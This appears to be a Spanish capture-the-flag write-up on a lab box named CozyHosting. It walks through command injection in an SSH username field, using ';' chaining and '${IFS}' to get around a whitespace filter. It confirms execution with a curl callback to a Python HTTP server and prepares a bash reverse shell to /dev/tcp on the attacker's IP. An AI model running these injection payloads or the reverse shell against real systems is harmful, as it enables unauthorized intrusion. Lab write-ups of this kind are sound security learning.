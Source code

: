 
Y:
 - Hostname: *localhost*
- Username: *test;whoami#*

Error:
```
ssh: Could not resolve hostname test: Temporary failure in name resolution/bin/bash: line 1: whoami
```
No estamos viendo ningún output.

Al ejecutar:

- Hostname: *localhost*
- Username: *test;whoami;#*   (con el ; final)

Nos devuelve:
```
ssh: Could not resolve hostname test: Temporary failure in name resolution
```
Ahora no vemos nada pero quizá se ha ejecutado un comando

-------------
Vamos a intentar hacer una traza más visual. En vez de whoami, vamos a mirar si ejecuta un "curl" a nuestra máquina.

Mi máquina tiene IP: 10.10.14.3
Nos abrimos un servidor Python para ver quien se conecta a él:
```
┌──(polika4r㉿prm)-[~/Escritorio]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Pues ejecutaremos dicho curl con:
- Hostname: *localhost*
- Username: *test;curl 10.10.14.3;#*

Nos devuelve un error conforme la cadena no puede contener espacios:
```
Username can't contain whitespaces!
```

Para solucionar este hay un comando en Linux que se llama ${IFS}  un "input field separatos", que es una variable de entorno que define los carácteres que se utilizan como separados de campos al procesar texto.

Podría probar:
- Hostname: *localhost*
- Username: *test;curl${IFS}10.10.14.3;#*

¡Y efectivamente, en el servidor de Python recibimos una conexión entrante! Eso significa que se ejecutan comandos.
Estamos consiguiendo una ejecución remota de comandos.

La petición del curl está buscando realmente un "index.html", pues defino un script en bash que se encargue de entablar una reverse shell.

En el directorio desde donde ejecute el servidor de Python creo un archivo llamado ***index.html*** que contenga:
```
┌──(polika4r㉿prm)-[~/Escritorio/COZYHOSTING]
└─$ cat index.html 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```
Con un servidor de python en dicha ruta:
